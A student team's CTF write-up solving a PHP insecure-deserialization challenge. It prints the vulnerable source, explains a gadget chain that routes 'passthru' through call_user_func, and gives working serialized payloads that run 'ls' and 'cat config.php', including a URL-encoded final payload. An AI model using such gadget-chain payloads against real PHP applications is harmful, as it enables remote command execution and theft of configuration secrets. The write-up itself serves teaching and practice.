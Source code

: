 # CTF Challenge with Group ✌
- **Insecure Deserialization**:<br>
- **Subject:** CTF Challenge in Secure Programming and Exploiting Vulnerabilities subject<br>
- **Team:** Blackberries<br>
- **Link:** http://45.122.249.68:10001/

## Write Up:<br>
- Enter link, we see a PHP code
```PHP
<?php
#include "config.php";
class User{
    private $name;
    private $is_admin = false;
    public function __construct($name){
        $this->$name = $name;
    }
    public function __destruct(){
        if($this->is_admin === true){
            echo "hi admin, here is your flag";
        }
    }
}
class Show_color{
    public $color;
    public $type;
    public function __construct($type,$color){
        $this->type = $type;
        $this->color = $color;
    }
     public function __destruct(){
         call_user_func($this->type->adu,$this->color);
     }
}
class do_nothing{
    public $why;
    public $i_use_this;
    public function __construct($a,$b){
        $this->why = $a;
        $this->i_use_this = $b;
    }
    public function __get($method){
        if(isset($this->why)){
            return $this->i_use_this;
        }
        return $method;
    }
}
if(isset($_GET['code'])){
    unserialize($_GET['code']);
}
else{
    highlight_file(__FILE__);
}
?>
```
- There are 3 main classes:  `User`, `Show_color` and `do_nothing`<br>
- The "main" code:
```
if(isset($_GET['code'])){
    unserialize($_GET['code']);
}
else{
    highlight_file(__FILE__);
}
```
The code above will get the value of `code` in URL through `$_GET[]` and **unserialize** the variable `code` . In case `code` is **null** then show the code like being - `highlight_file(__FILE__);`.There are two another function `__construct()` và `__destruct()` and this is the good case for **insecure deserialization** with **unserialize** has no verify-input job so we can take advantage of this to exploit
- We notice that `User` class seems strange when a line shows  `admin=false`and when `admin=true` then print `"hi admin, here is your flag"`. So we trying to serialize the `User` object.
```
$a = new User('name');
$b = serialize($a);
echo $b;
```
Serialized string: `O:4:"User":2:{s:10:"Username";s:4:"name";s:14:"Useris_admin";b:0;}`.
Change the value `admin` into `true`-> Change `b:0` into `b:1`. Give this to `$code` in URL: 
http://45.122.249.68:10001?code=O:4:"User":2:{s:10:"Username";s:4:"name";s:14:"Useris_admin";b:1;}
We only see a blank page and nothing special with source code (Ctrl + U)
- According to next 2 classes, they're likely to be vulnerable cause in class `Show_color`, it uses `call_user_func()`. With this, we can execute our desired command with the first parameter is the function, the second one is the parameter for the precede function. For more details, see [here](https://www.php.net/manual/en/function.call-user-func). Considering some functions that allow us to **execute shell**: `exec()`, `shell_exec()`, `system()`, `passthru()`, which `system()` and `passthru()` are the best use cases (as I think) cause it's easy to use.
- Next, we think how to put that **excute shell** in classes's methods. 
```
public function __destruct(){
         call_user_func($this->type->adu,$this->color);
     }
```
- As recommendation,  `passthru()` is passed into first parameter and `ls` will be the second. But the problem here, with second one we can transfer `ls` into `$color`through **constructor** but can not transfer `passthru` into the first cause its operation `$this->type->adu`, we have to manage to set `$this-type` as an object and `adu` would be the member or method.
- Take a look at `do_nothing`class, there is a fucntion `__get()`.This is one of [Magic Methods](https://www.php.net/manual/en/language.oop5.magic.php) to override the reserved function by PHP. `__get()` take a parameter as a member or method. In the code, function `__get()` return  `this ->i_use_this` when  `this->why` is not empty. 
### Solution:
- Create instance  `do_nothing` with 2 parameters `123` (Optional value)  and `passthru`. 
- Create instance`Show_color` with 2 parameters **do_nothing object** above and the command we want to execute ex. `ls`. 
- Then **serialize** object  `Show_color`<br>
**Code**:
```
$a = new do_nothing(123,"passthru");
$b = new Show_color($a,"ls");
$code = serialize($b);
echo $code;
```
Output:
`O:10:"Show_color":2:{s:5:"color";s:2:"ls";s:4:"type";O:10:"do_nothing":2:{s:3:"why";i:123;s:10:"i_use_this";s:8:"passthru";}}`
- Send to  var `code` and send request to reload page <br>

![image](https://user-images.githubusercontent.com/48288606/145559744-dd709ed3-33ed-4d02-a574-9787e0eb6aa7.png)


- There are 2 files. The command was executed successfully, we can review the logic flow as the following: Take a deep in the line `call_user_func($this->type->adu,$this->color);`. `$this->type` will become `$a`, means it will operate this `call_user_func($a->adu,$this->color);`. How about `$a->adu` was processed? Back again in `__get($method)` . And `$method` here is `adu`, this `$method` is actually do nothing, `$this->why` is set **null** to run the **block code** inside `return $this->i_use_this;` , it's equivalent to `return passthru($command)` with **$command** we have set above - `ls`.
- Afterthat, we try read file `config.php` first. Change `ls` into `cat config.php` , serialize again and do the similar with all the step above
Payload: O:10:"Show_color":2:{s:5:"color";s:13:"cat config.php";s:4:"type";O:10:"do_nothing":2:{s:3:"why";i:123;s:10:"i_use_this";s:8:"passthru";}}

<p align="center">
  <img src="https://user-images.githubusercontent.com/48288606/138678027-6bf37d9f-08e8-4fc4-a663-242a7e406030.png">
</p>

Seem not work? We take a consideration the variable we handle when manipulate all the value through URL, which will be affected by **URL Encode**. So in `cat index.php` it was the "space" in the string that will be encoded. For working properly, we should encode the payload

<p align="center">
  <img src="https://user-images.githubusercontent.com/48288606/138679801-71a74d2a-a376-478c-a92f-29e0da356e67.png">
</p>

**Final Payload**: %4f%3a%31%30%3a%22%53%68%6f%77%5f%63%6f%6c%6f%72%22%3a%32%3a%7b%73%3a%35%3a%22%63%6f%6c%6f%72%22%3b%73%3a%31%34%3a%22%63%61%74%20%63%6f%6e%66%69%67%2e%70%68%70%22%3b%73%3a%34%3a%22%74%79%70%65%22%3b%4f%3a%31%30%3a%22%64%6f%5f%6e%6f%74%68%69%6e%67%22%3a%32%3a%7b%73%3a%33%3a%22%77%68%79%22%3b%69%3a%31%32%33%3b%73%3a%31%30%3a%22%69%5f%75%73%65%5f%74%68%69%73%22%3b%73%3a%38%3a%22%70%61%73%73%74%68%72%75%22%3b%7d%7d
- Blank page, check the source code.
```
<?php
$flag = "flag{n0j_l0j_pk4j_qju_l4y_l0j_dunq_nku_c0n_bu0m_d4u_r0j_l4j_b4y}";
?>
```
**=>flag{n0j_l0j_pk4j_qju_l4y_l0j_dunq_nku_c0n_bu0m_d4u_r0j_l4j_b4y}**
